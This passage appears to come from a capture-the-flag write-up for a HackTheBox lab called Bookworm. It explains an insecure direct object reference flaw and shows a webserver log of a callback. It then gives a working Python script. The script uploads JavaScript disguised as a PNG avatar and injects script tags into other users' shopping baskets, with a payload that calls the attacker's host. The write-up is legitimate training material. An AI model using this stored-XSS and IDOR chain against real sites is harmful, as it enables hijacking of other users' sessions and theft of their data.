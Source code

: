 ![image-20240116115729287](/img/image-20240116115729287.png)

A few minutes later, there’s a request at my Python webserver:

```
10.10.11.215 - - [15/Jan/2024 14:23:40] code 404, message File not found
10.10.11.215 - - [15/Jan/2024 14:23:40] "GET /xss HTTP/1.1" 404 -

```

This is a classic insecure direct object reference (IDOR) vulnerability, as I’m able to access something I shouldn’t be able to just be changing the ID.

#### Script

I’m going to need to update my XSS payload and then poison baskets again to figure out where to go next. I’ll write a quick Python script to make the necessary requests:

```

#!/usr/bin/env python3

import re
import requests

username = "0xdf"
password = "0xdf0xdf"
my_avatar_id = 14
base_url = "http://bookworm.htb"
xss = """fetch('http://10.10.14.6/python');"""

sess = requests.session()

# login
sess.post(f'{base_url}/login', data={"username": username, "password": password})

# set XSS in avatar
sess.post(f'{base_url}/profile/avatar', files={'avatar': ('htb.js', xss, 'image/png')})

# get basket id and IDOR
resp = sess.get(f'{base_url}/shop')
ids = re.findall('<!-- (\d+) -->', resp.text)

for bid in ids:
    resp = sess.post(f'{base_url}/basket/{bid}/edit', data={"quantity": "1", "note": f'<script src="/static/img/uploads/{my_avatar_id}"></script>'}, allow_redirects=False)
    if resp.status_code == 302:
        print(f"Poisoned basket {bid}")

```

This assumes that the user 0xdf already exists with the password 0xdf0xdf, with an avatar ID of 14 (all configured at the top). It updates the avatar with the JavaScript defined towards the top, and then gets all the basket ids from `/shop` and poisons them.
